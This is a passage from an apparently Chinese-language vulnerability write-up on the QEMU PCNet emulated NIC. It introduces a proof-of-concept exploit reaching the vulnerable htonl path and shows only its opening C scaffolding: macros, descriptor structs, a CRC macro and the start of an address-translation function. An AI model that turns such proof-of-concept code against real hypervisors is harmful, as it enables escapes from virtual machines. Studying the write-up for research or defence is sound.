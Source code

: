 设置完上面这些内容就可以调用到漏洞函数即htonl那里，poc代码如下：

```
/*
* @Author: resery
* @Date:   2020-10-14 15:41:43
* @Last Modified by:   resery
* @Last Modified time: 2020-10-19 09:17:53
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdint.h>
#include <string.h> 
#include <stdio.h> 

#define PAGE_SHIFT  12
#define PAGE_SIZE   (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN     ((1ull << 55) - 1)

#define page_aligned __attribute__((aligned(PAGE_SIZE)))

#define PCNET_BUFFER_SIZE 4096
#define PCNET_PORT        0xc140

struct pcnet_initblk32 {
    uint16_t mode;
    uint8_t rlen;
    uint8_t tlen;
    uint16_t padr[3];
    uint16_t _res;
    uint16_t ladrf[4];
    uint32_t rdra;
    uint32_t tdra;
};

struct pcnet_TMD {
    uint32_t tbadr;
    int16_t length;
    int16_t status;
    uint32_t misc;
    uint32_t res;
};

struct pcnet_RMD {
    uint32_t rbadr;
    int16_t buf_length;
    int16_t status;
    uint32_t msg_length;
    uint32_t res;
};

#define CRC(crc, ch) (crc = (crc >> 8) ^ crctab[(crc ^ (ch)) & 0xff])

size_t virtuak_addr_to_physical_addr(void *addr){
    uint64_t data;
```